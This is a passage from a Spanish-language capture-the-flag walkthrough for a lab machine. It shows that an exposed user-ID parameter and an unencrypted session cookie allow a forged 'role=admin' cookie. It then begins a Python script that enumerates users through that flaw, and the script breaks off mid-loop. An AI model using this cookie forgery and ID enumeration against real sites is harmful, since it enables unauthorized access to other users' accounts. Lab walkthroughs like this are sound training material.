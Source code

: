 <img src="https://i.imgur.com/wZCGv1n.png" width="700"/>

<br>

Como vemos, no tendremos permisos para acceder a la página de uploads por lo que seguiremos investigando el resto de la web.

La siguiente página que veremos será account, esta página nos proporcionará información sobre nuestro usuario. Lo interesante de esta página es que si observamos la URL podremos ver que el ID del usuario está indicado directamente como parámetro php.

Además de eso, si nos fijamos en las peticiones que se están realizando al servidor web, podremos ver que la cookie de sesión está sin encriptar y que uno de los parámetros de la misma coincide con el Access ID en la pestaña accounts:

<img src="https://i.imgur.com/28A2MAY.png" width="500"/>

<br>

<img src="https://i.imgur.com/1Eab6lH.png" width="700"/>

<br>

<img src="https://i.imgur.com/PgYkaw1.png" width="250"/>

<br>

### User gathering
Programaremos un script en [Python3](https://www.python.org/downloads/) que nos itere por los distintos IDs y nos represente los usuarios válidos y el ID de la cookie de cada uno de ellos:

```python
File: idScraper.py

#!/usr/bin/python3
#coding=utf-8


#PHP ID Parameter Scraper 
# Author: Gaizka Martin (a.k.a g2jz)


import requests
import re
import time

from pwn import *

def makeRequests():
    s = requests.Session()
    log.progress("Empezando escaneo\n")

    headers = {
        'cookie' : 'user=34322; role=admin'
    }

    for i in range(50):
        url = "http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id=%s" % i    
        
        data = {
            'content': 'accounts',
            'id': i
        }
        
        r = s.get(url,headers=headers,data=data)
        
```